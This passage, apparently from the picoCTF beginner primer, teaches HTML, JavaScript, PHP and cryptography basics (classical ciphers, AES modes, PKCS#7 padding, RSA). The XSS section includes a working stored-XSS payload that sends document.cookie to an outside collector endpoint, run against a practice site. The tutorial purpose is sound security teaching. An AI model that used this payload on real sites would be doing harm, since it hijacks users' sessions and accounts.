
You just created a page with a very simple HTML that made your message appeared in bold. Note that <b> is the opening tag, </b> is the closing tag. Analyze the difference between the opening and closing tag. What do you see? The closing tag is usually the same as the opening tag, but you include “/” like we just did. We just used an html tag to tell the browser we want some specific text in bold. Html is just a bunch of tags that allow us to do similar things.
Now let’s make a page with more fields so you can get a sense of more tags and of the structure of a bigger page. Use the following HTML code to replace the content of the file you are editing:
<html>
<header>
<title>This is a picoCTF html Example</title>
</header>
<body>
<h1>This is a Heading</h1>
<h2>This is a smaller Heading</h2>
<p>This is a paragraph.</p>
The following is an image:<br>
<img src="picologo.png" />
</body>
</html>Now, as we were doing before, save the file in the text editor and click refresh on the browser. You probably see something like this:

If you read the html code and try to analyze its content, you would realize the following:
-
The title shown in that tab of the browser “This is a picoCTF html Example”, appears there because you put that text inside in the <title></title> tags.
-
<h1> Is used to create a big heading
-
<h2> creates a heading a little smaller than <h1>
-
The <header> tags are used to group introductory content, in this case the title, but if you remove this tag, you will not see much change in our page. Do the experiment of removing it. If you only remove the opening or closing tag, that would cause an html error, so make sure to delete the opening tag and closing tag.
-
The <body> tags are used to group the main content of the page. Also, if you remove them, you will not see much change in our page because we have just a few things. However, in several cases you might break a page completely if you remove a tag without proper care.
NYou must have noted the <img> tag is not showing any image as it should. Why? Let’s analyze the element img:
<img src="picologo.png" />First you see there is not opening or closing tag, there is just one tag with the slash at the right hand side. This is ok for an image. As you can see, it has an attribute called ”src”, which means source. We are assigning to “src” the value “picologo.png”. Our html is going to try to access a file called “picologo.png” in the same folder as “myFirstPage.html” is contained, which is the folder we name at first “picoexample”. There is no image called “picologo.png”, so the browser has nothing to show. Copy and paste an image to the folder and name it “picologo.png”. The extension of the image has to be ”.png”. If you have an image with a different extension, you can just use the extension you need in the "src" attribute in your html. For example, if the extension of the image you have is ".jpg" you can simply replace
<img src="picologo.png" />by
<img src="picologo.jpg" />If you successfully created the image in the folder, and refresh the browser, you will see the following, of course, with your own custom image:

A fundamental part of web site are the links. The link tag is <a>, the following is an example of a link directed to google:
<a href="http://google.com" > Go to google! </a>Use that element and put it in your code to make a link to the web site you want. Now practice by adding more html tags and images in your page! This is a reference in which you can find more html tags:
4.2. JavaScript
To make pages more interactive JavaScript is commonly used. JavaScript is a programming language! We can do algorithms using it. JavaScript is executed in your browser. For example, when you visit a website, the JavaScript code is downloaded along the HTML and it only executes once it is loaded in your browser. When you visit a page, you are downloading an html file and your browser interprets the tags and prints the text and images as we learned before. This image illustrates that process:

If that file happens to contain JavaScript, your browser will execute it. Let’s look at an example. In the same folder “picoexample”, create a file called “myFirstJS.html“ using a text editor. Then, put the following content in the file:
<html>
<header>
<title>This is a picoCTF JS Example</title>
<script>
alert("Hello picoCTF");
</script>
</header>
<body>
<h1>JavaScript example</h1>>
</body>
</html>Save the file. As soon as you open the page, you will see an alert showing “Hello picoCTF”, something like this:

If you analyze the file, you will note that the magic is happening in this element:
<script>
alert("Hello picoCTF");
</script>Whatever you put inside the tags “<script> </script>” will be tried to execute by the browser as JavaScript. Since JavaScript is a programming language, we should be able to do some arithmetic. Replace the string “Hello picoCTF” by an arithmetic operation, like 8*8, like this:
<script>
alert(8*8);
</script>Note that we only use quotes when we want to use a string. In arithmetic operations we don’t use quotes. Save the file, and refresh the browser as we always do. You should see the following:

Click Ok in the alert message to make it go away. Anything you write in JavaScript or html, will be visible for any user that access your page in a browser. To see the html and Javascript code in your browser, right click the page and then “View Page Source”

You will see the javascript code you just wrote:

This is a very important thing! Never put a secret in your javascript code or html. If someone does it, that will be a vulnerability in your page. As a hacker, you can try to look for secrets on the html of a page you want to exploit.
Now let’s use some more elaborated code. We are going to make a page that adds two numbers input by the user and shows the result in an alert. We will explain its code in detail later. The code is the following:
<html>
<header>
<title>This is a picoCTF JS Example</title>
<script>
function myFunctionSum(){
var number1 = document.getElementById("number1").value;
var number2 = document.getElementById("number2").value;
var result = number1 + number2;
alert(result);
}
</script>
</header>
<body>
<h1>JavaScript example to add2 numbers</h1>
Input the first number<br>
<input type="text" id="number1" ><br>
Input the second number<br>
<input type="text" id="number2" ><br>
<button onclick="myFunctionSum()"> Show alert! </button>
</body>
</html>Put it on a text file, save it, and open it on a browser as usual. You should see this:

If you put the numbers in each text field, and click “show alert!”, you will see the alert with the result. For this example let’s input 4 and 2 in the text fields, you should see:

Now that you know what the page does, let’s analyze the new lines of the code. In this line we have an input tag:
<input type="text" id="number1" ><br>As you can see, it is of type text, and it has an “id” with the value of “number1”. The value of the “id”, in this case "number1", is something we arbitrarily define to be able to access the content of this text input in JavaScript. This line:
<button onclick="myFunctionSum()"> Show alert! </button>Is responsible for calling the function “myFunctionSum()” when the button is clicked. A function is just a piece of code that we can define, so whenever is called it executes the code inside. In this case, we named the function "myFunctionSum", but is is possible to give it any name. The function has to be defined inside the script tags. Try to read the function and understand at a general level what each line is doing:
function myFunctionSum(){
var number1 = document.getElementById("number1").value;
var number2 = document.getElementById("number2").value;
var result = number1 + number2;
alert(result);
}Challenge! Modify the file to multiply the two numbers. When you are done with that, include a new third input number to multiply three different numbers! At this point you should be able to do it on your own. Be careful with the syntax, remember that a single character wrong might break the whole code.
4.3. Server code
As we said previously, javascript is executed only in the browser. But, what if you want to do calculations and store data in the remote server? For example, when you login into a Website, your user and password has to be verified on the server. The password is stored in the server and should not travel outside of it for the sake of security. If you would verify a password on JavaScript, you would be able to see it on your browser in the same way you can see any JavaScript, and that would be very insecure. There are several programming languages that can be executed on the server, for instance:
-
Python
-
Java
-
PHP
-
C
-
C Sharp
-
And many more…
For our examples, we will begin using PHP, not because we think is a great language, but because a huge amount of websites on the Internet use it and it is very easy to learn and deploy. In any case, as a hacker, you would generally have to learn all the languages you can because different Websites are made on different languages, as well as CTF challenges that try to simulate real life! The more a language is used, the more likely you will have to attack a website made with it. However, the vulnerabilities we will be explaining can happen in any programming language, because they are not a fault of the language, but a fault of the programmer that did the website.
Suppose you have a text file named hello.php, containing:
<b>Hello World!</b>
<script> alert('Hello World from JavaScript!'); </script>
<?php
echo "Hello World from PHP!";
?>Note that in a file with the extension .php you can mix html, javascript, and PHP code! If the server supports PHP, everything inside <?php ?> will be understood as PHP code and run by the server, not by the browser.
Look at the following image carefully to understand what happens:

If you open a file with that content on your laptop, the PHP code will not be executed, because your laptop is not a PHP server (if you have not made it one). So, to execute PHP you need to make your laptop a server. But for the time being, we can use the following:
Access that link, and you will see at the right a file with html and PHP code, that when is run, prints "My first PHP script!". Let’s modify the code to additionally print the date, so below the line
echo "My first PHP script!";Add the line
echo date("H:i:s");According to what you have learned so far, that time is from the clock on your computer? Or the time of the clock in the server?
…PHP is server side code, so that time is from the clock on the server!
Now let’s make an experiment, and add another line with this php code:
echo "<script> alert('Hello World from JavaScript!'); </script>";That string echoed in PHP has javascript code. Is the JavaScript alert shown? What happened? As expected, anything printed on php, will become an integral part of the html downloaded file, so the javascript will be executed. This opens the door for the famous attack of Cross Site Scripting (XSS).
4.4. Cross Site Scripting (XSS)
After you Login into a Website, the Website needs a way to know that any request coming from your browser is coming from a user that previously logged in, without the need to send the user-password again. To do that, the website can send to your browser a secret random value after login. That value is generally stored in a cookie or in javascript local storage. For this example, let’s pretend it is stored in a cookie, which is simply a variable in your browser that can retain data. If a Website sets a specific cookie in your browser, your browser automatically re-sends that cookie in each request to the website. If a Website only uses cookies to retain a session, and if a hacker can steal the authentication cookie from you, they could pretend to be you! Note that only using cookies for autentication will open the possibility of Cross Site Request Forgery (CSRF), but this will be explained later, for now let’s focus on XSS.
Suppose you are a hacker in a social network. When you create your account, instead of using your name, you input javascript code. When a friend of yours visit your profile, the WebSite will try to print your name, but your name is actually javascript code, so the browser might execute that javascript code. In that way, you could execute your own javascript on your friend’s browser!
When you get to execute javascript in someone else’s browser, you can read their authentication data, which can be a secret value placed on a cookie or javascript local storage after a user logs in. At that point, your friend’s account would probably be compromised!
An important skill to have, is to use the browser debugger. For this explanation we will use Firefox. You can download an install Firefox here:
Note: If you really don’t want to use Firefox, every browser has a debugger, so you just have to google how to use it. It will not be that different.
Using Firefox, input your name and some text in the description in the following link:
Open another tab and visit the following link. You should see your name and description:
Now, in the Firefox Menu, click “Web Developer” and then click “Debugger”. You should see a pane like the following:

In that pane, click “storage”. At the left click “cookies” and click the domain you are currently on. You will see a cookie that has your name in the value!

You can only see your cookie. Other users would see their cookie with their name. For this experiment, you will steal your own cookie. But with the same method, you could steal the cookie of someone else.
For now, access this link again:
Create a new user that has your name, but instead of the description has the following code:
<script> alert('I just injected Javascript!'); </script>If you navigate this link again, you will see your javascript code triggered:
Like this:

You just verified that you can inject javascript in the website. Now we are going to inject javascript that will steal the cookie. Create another user in the same link for creating users:
But now, put this JavaScript code in the description:
<script src="https://code.jquery.com/jquery-3.4.1.min.js"> </script>
<script>
$.get(
"http://primer.picoctf.com/vuln/web/insert.php",
{cookie : document.cookie, hackername : 'YourName'},
function(data) {
alert("I just stole the cookie!");
}
);
</script>Let’s understand the code. The first line, imports a library called jquery:
<script src="https://code.jquery.com/jquery-3.4.1.min.js"> </script>A library is simply a set of functions that allow us to do some actions in an easier manner. In this case, it allow us to do requests and send data from javascript to a server. Then, we are just sending the cookie to a remote service that is made to receive cookies from this exercise. That service receive two variables: “cookie” and “hackername”. The value of the variable cookie will be “document.cookie”. Here, instead of “=”, we use “:” to assign a value to a variable. Using document.cookie you access the cookies from javascript, so that should contain the cookie you want to steal. The variable hackername simply has a name assigned. You could replace the string “YourName” with your actual name. Remember that a string has to be inside quotes in javascript.
The function:
function(data){
alert("I just stole the cookie!");
}Is simply a function that will be executed after the request is sent to the service, and will alert a message.
Now visit this site again:
When a user visits that site is when the javascript is executed and the cookie is stolen. You should see the message:

If you injected scripts previously, all those scripts are stored in the web site and will be executed in the order you injected them when the page that prints them is visited.
Now you should be able to see the cookie you stole here:

At this point you should have some understanding on how a website works. You are ready to begin to do more web challenges on the picoCTF!
5. Cryptography
Cryptography is an ancient field that dates to the antique Rome. Etymologically, the word traces back to the Greek roots "kryptos" meaning "hidden" and "graphein" meaning "to write." It is used to communicate secretly in the presence of an enemy. With cryptography we can achieve the following properties when a message is sent:
*Confidentiality: No one unintended will be able to read the message.
*Integrity: If a message is tampered, it is possible to detect that it was.
*Authentication: It can be verified accurately the identity of someone.
*Non repudiation: If a person sent a specific message, then the person cannot deny that the message was sent by them.
First we will see how to achieve Confidentiality. This is done with encryption. When we want to hide a message, we say that we encrypt the message. To understand how encryption works, we will see an example of an ancient way of encrypting a message that is not secure by any means today, but it is good for illustration.
5.1. Substitution ciphers
"Cipher" means a secret or disguised way of writing a message. It can be thought as the same as encryption. One cipher method invented in the antique Rome and named after the emperor Julious Caesar who used it for his private communication is Caesar’s cipher. This cipher simply substitutes each of the letters of a word by another one that is a certain number of positions further in the alphabet. That "certain number of positions" is called the shift. For example, if we have the word "hello" and we want to encrypt it using Caesar’s cipher with a shift of 3, we would replace the 'h' by 'k' because 'k' is 3 positions further in the alphabet, the 'e' by 'h' for the same reason, and so on. We called the original text we want to encrypt the cleartext or plaintext. The result of encrypting 'hello' using caesar’s with a shift of 3, is the following:
cleartext → h e l l o
Encrypted text → k h o o r
"Decrypting", means obtaining the clear text from the encrypted text. For Caesar’s cipher we simply do the same but in reverse; we subtract 3 positions in the alphabet to each letter.
Note that when we get to the end of the alphabet after adding positions while encrypting something, we simply overlap the alphabet. For example, to encrypt the letter 'z', we would encrypt it using the letter 'c'.
To make sure you understand the decryption, decrypt the following text using caesar cipher with a shift of 3:
s l f r f w i
The result is something you probably know. Hint: the first decrypted letter is 'p' .
Caesar’s cipher is a substitution cipher, because it replaces each letter by something else. In a substitution cipher, you don’t necessarily need to replace a letter by another letter. You can use any symbol, as long as you know how to reverse it.
5.2. Transposition ciphers
In transposition ciphers, we don’t replace the letters by other symbols, but we simply change the order in which they appear on the cleartext. For example, we can decide that our encryption algorithm simply moves the letters to the right and overlaps. Let’s encrypt the word 'pico' by rotating its letters by one position to the right.
clear text → p i c o
encrypted text → o p i c
This is a very simple kind of transposition. But you can have a map that makes more complicated transpositions. For instance, you can decide that you will encrypt a text by doing transpositions in chunks of 6 letters using the following mapping:

The number indicate the position of the letters. Using that mapping, let’s encrypt the word 'pico'. Since pico only has 4 letters, we can simply use a padding to complete until 6 letters. For this example, we will use the symbol * as padding, so we have:

The encrypted word is 'c*ip*o' using our arbitrarily defined mapping. Suppose we want to encrypt a long text. In that case we simply apply the same mapping each 6 characters.
So far we saw how transposition and substitution ciphers work. If they are used only by themselves, they are very easy to crack. On the other hand, if someone finds out the algorithm we use to encrypt, the encryption is broken forever! A way to improve this, is by using encryption algorithms based on a key.
5.3. Key ciphers
There is a principle in cryptography called the Kerckhoffs’s principle that states: "A cryptoststem should be secure even if everything about the system, except the key, is public knowledge". That principle pretends to overcome the fact that once the encryption algorithm is known by the enemy the encryption is broken. The solution is to use a key. One old algorithm that was used to encrypt data using a key was "Vigenere". It looks certainly stronger than the previous algorithms we learned. Even though it is easily breakable nowadays, in its time it was considered unbreakable.
To understand how Vigenere works we will encrypt the cleartext:
"I LOVE PITTSBURGH"
First, we remove the spaces, because the Vigenere table does not have the space. However, a human can easily recognize the words of a text even if it has no spaces. We get:
"ILOVEPITTSBURGH"
Now, we can pick a key. For this example, we will use the key "PICOCTF". Since our text is larger than the key, we simply repeat the key several times until we get the same length in the following manner:
Plaintext: ILOVEPITTSBURGH
Key: PICOCTFPICOCTFP
The first letter of the cleartext is paired with the first letter of the key. So we have the pair ('I','P') Now in the vigenere table that is presented below, we use row i and column p. The cell at the intersection of the column and the row will be the encrypted letter, which in this case is X. We do the same for the rest of the letters, and we would obtain the following:
Cleartext: ILOVEPITTSBURGH
Key: PICOCTFPICOCTFP
Encrypted text: XTQJGINIBUPWKLW
Vigenere table:

Now let’s see how decryption works. Suppose we only have the key and the encrypted:
Key: PICOCTFPICOCTFP
Encrypted text: XTQJGINIBUPWKLW
We take the first letter of the key, which is 'P', and go to that row in the vigenere table. Then in the row 'P', we find the first letter of the encrypted text, which is 'X'.The column that corresponds to 'X', is the first letter of the clear text, in our case 'I'. You repeat the same process for each character until you get 'ILOVEPITSBURGH'.
To verify that you understand the decryption, decrypt the encrypted text "WMNZQAJ" using the key "HELLO", remember that if the key is shorter, you just repeat it. You should obtain a word you will easily recognize!
Vigenere is easily broken even without a computer. Simon Singh, a famous science communicator, has a nice tool on his website for cracking Vigenere:
Cracking ciphers is a field itself called cryptanalysis. Cryptanalysis and Cryptography compose bigger field called Cryptology.
5.4. Modern cryptography
In modern cryptography exist the concept of symmetric and asymmetric cryptography. Symmetric cryptography means that you use the same key for encryption and decryption like we just did on Vigenere. In asymmetric cryptography you have two keys. One is for encryption, known as the public key, the other one is for decryption, known as the private key. Asymmetric cryptography is useful because it can be used to solve the problem of a key exchange. Additionally, it can be applied for digital signatures that provide integrity and non-repudiation.
5.4.1. Symmetric crypto example: AES
A commonly used algorithm today for symmetric cryptography, is AES, which means "Advanced Encryption Standard". This algorithm has a combination of substitutions and transpositions using a key of fixed length. A key of fixed length means that the algorithm can only have a key with a certain size. However, AES has different versions and each version can support a key length of different sizes. The most common versions are AES 128 and AES 256, which have a key length of 128 bits and AES 256 respectively. AES algorithm is considered secure. However, the implementation can be attacked successfully if it has flaws. For example, one famous way to break AES encryption is the Padding Oracle Attack, which allows to successfully crack SSL, an encrypted protocol that was widely used to secure HTTP traffic. However, this is not a weakness of AES, but a weakness in how it is used.
AES has different operation modes. We will analyze two of them to illustrate vulnerabilities that can emerge in their use. This operation modes are "ECB" and "CBC".
Operation mode ECB
ECB means Electronic Code Book. In this operation mode we encrypt independently blocks of the clear text according to the key length. For example, if we are using AES 128, we break the clear text in chunks of 128 bits and use AES to encrypt them independently. This causes a problem because it leaks structure in the encrypted text. There is a famous example on the internet about an image of Tux (the penguin from linux) encrypted using AES in ECB operation mode:
Original image:
Encrypted image using AES on ECB mode:

Yow can see that is easy to identify that the encrypted image contains the penguin. In other cases this operation mode can be very bad for other reasons. Suppose you are sending an encrypted text and you know that the first 128 bits contain a name and the second 128 bits contain a date. Imagine that you are an attacker that captures some encrypted messages on different dates. Even if you do not know the key, you could be able to interchange the second block of messages to tamper the date. To understand this better let’s look at an example. Suppose you intercept a message sent on May 1, and after some days you intercept another message in on may 8.
Imagine you want to make the receiver think that the second message is from May 1. You could simply replace the blue block by the red block.

Another problem of ECB, is that if you send the same message twice, any attacker can see that the same message is being sent again. A secure encryption algorithm should not leak any information about the message. Knowing that the same message was sent in the past can be used to learn details about the communication. It is simply recommended to never use ECB.
Operation mode CBC
A more secure operation mode is CBC, which means Cipher Block Chaining. In this mode we include additional elements. The first one is the initialization vector; a random value with the same size as the key. In AES, the key size is the same as the block size. Remember that in AES we have to separate the cleartext in blocks with the same size as the key. Before starting the encryption, we do XOR between the first block of cleartext and the Initialization Vector, then we begin to encrypt using AES with the key of our choice. The initialization vector is different for every message, so if we send the same message twice, it will be different due to the initialization vector. We must attach the initialization vector to the message. Another element we add in this operation mode, is that we do not encrypt blocks independently, but we use the encrypted text from one block and XOR it with the next block of cleartext we want to encrypt. Then, we use AES and the key to encrypt that result. In the following image it is shown the graphical representation of what it was just explained, note that the circle with the cross means XOR:
In AES, the cleartext has to be the same size as a multiple of the block size. For example, If you have a cleartext that happens to be shorter than a block, you need to add padding to the cleartext so it matches at least one block. In case that the cleartext is larger than one block, but smaller than two, you need two add padding to the cleartext until it is the same size as two blocks. In AES there is a common way of padding, which is actually a standard called PKCS #7. In AES 128, as we said previously, the block size is 128 bits, which is equivalent to 16 bytes. Suppose you want to encrypt the message
"HELLOPICOCTF"
Since that message is 12 bytes, we require to add a padding of 4 bytes to complete the size of a block. In PKCS#7, you pad using a byte with the value of bytes you need to pad. In our example, since we need to pad 4 bytes to complete 16 byte, we would pad like this:
"HELLOPICOCTF"+"\x04\x04\x04\x04"
Note that "\x" is a way to tell that in a string we want to use that exact number on a byte, even if it is not printable ASCII. Now, suppose we want to encrypt a message of 14 bytes like:
"GOODBYEPICOCTF!"
After we pad it using PKCS#7, the result is:
"GOODBYEPICOCTF!"+"\x01"
What would be the result after padding the message "BYEPICOCTF"?
…
If you answered:
"BYEPICOCTF"+"\x06\x06\x06\x06\x06\x06"
You are correct.
5.4.2. Asymmetric crypto example: RSA
Remember that asymmetric crypto, means that we use one key for encrypting (the public key) and another key for decrypting (the private key). Suppose you want to communicate secretly with asymmetric crypto. In that case, you generate a public and private key pair. Then, give the public key to anyone that wants to send you encrypted an encrypted message. They will encrypt the message using your public key and when you receive the encrypted message, you are the only one that can decrypt it, because you are the only one that has the private key. That’s why it is called "private". Note that your public key can be of public knowledge and no one would be able to decrypt the message. If you want to send an encrypted message to someone, that person would have to give you their public key.
A very widely used algorithm for asymmetric cryptography is RSA. It is called RSA because of its inventors: Ronald Rivest, Adi Shamir, and Leonard Adleman. To understand how it works, we will encrypt and decrypt using RSA algorithm with a public-private key pair that was generated for this example; it will seem a bit magical. After that, we will understand some concepts, learn to generate keys, and encrypt and decrypt with the generated keys.
Before encrypting, you need to understand how it works the modulo operation if you do not know already. It is actually very simple. The modulo operation finds the remainder after division of one number by another. For example, 8 mod 3 = 2, because 3 fits in 8 two times, and we have a reminder of 2. Since RSA uses very basic arithmetic, we are ready to see the example. In RSA, the public key is a pair of numbers, as well as the private key. The message can be anything that we can represent as a number. In a computer, everything is a number as we know. The encrypted text, also called ciphertext, will be another number. In summary, this what we need in RSA to encrypt and decrypt:
RSA public key: Is a pair of numbers (e,n)
RSA private key: Is a pair of numbers (d,n)
Message: m
Ciphertex: c
To encrypt: me mod n = c
To decrypt: cd mod n = m
Basically, 'd' is the private value of the private key, since 'n' is also in the public key. As you just saw, the formulas are very simple. To encrypt a message you simply take the message to the power of 'e', and then do modulo 'n'. To decrypt, take the ciphertext to the power of 'd', and then do modulo 'n', and that would result in the original message. In this example the numbers of the keys are very small; that is insecure in real life. RSA is only secure when large values are used. In 2019, RSA is considered secure only if the key is a number that would take at least 2048 bits. Which is roughly a number of 617 digits. This is how it looks a 617 digit number:
